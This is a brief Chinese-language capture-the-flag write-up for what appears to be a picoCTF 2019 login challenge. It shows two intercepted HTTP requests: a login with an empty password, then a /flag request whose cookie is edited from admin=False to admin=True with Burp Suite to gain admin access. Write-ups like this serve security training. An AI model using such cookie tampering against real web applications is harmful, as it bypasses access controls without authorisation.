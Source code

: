 使用burpsuite可以看但有重定向的过程，所以第一个包放过，抓到第二个包，将admin=False改为admin=True  
  
第一次发包：  
POST /problem/21895/login HTTP/1.1
Host: 2019shell1.picoctf.com
Connection: close
Content-Length: 31
Cache-Control: max-age=0
Origin: https://2019shell1.picoctf.com
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: same-origin
Referer: https://2019shell1.picoctf.com/problem/21895/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _ga=GA1.2.1422344254.155643409; _gid=GA1.2.39760068.156123219; _gat_gtag_UA_967658343_4=1

user=logon&password=
  
  
第二次发包： 

GET /flag HTTP/1.1  
Host: 2019shell1.picoctf.com  
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: same-origin
Referer: https://2019shell1.picoctf.com/problem/21895/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _ga=GA1.2.1422344254.155643409; _gid=GA1.2.39760068.156123219; _gat_gtag_UA_12348343_4=1; password=; username=logon; admin=True


